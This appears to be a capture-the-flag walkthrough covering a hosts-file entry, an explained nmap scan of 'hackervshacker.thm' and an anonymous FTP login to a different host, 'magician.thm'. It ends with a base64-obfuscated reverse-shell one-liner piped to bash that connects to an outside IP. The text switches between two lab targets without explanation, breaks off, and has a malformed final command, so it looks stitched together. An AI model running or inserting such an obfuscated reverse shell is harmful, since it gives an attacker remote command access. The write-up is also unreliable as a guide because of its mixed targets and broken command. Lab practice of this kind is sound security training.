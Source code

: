 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx hackervshacker.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV hackervshacker.thm
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
$ ftp magician.thm                                                                                                           
Connected to magician.thm.
220 THE MAGIC DOOR
Name (magician.thm:kali): anonymous
331 Please specify the password.
Password: 
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
ftp> ls -la
550 Permission denied.
```


echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjcyLjIwOS82NjY2IDA+JjEK|base64 "-d|bash
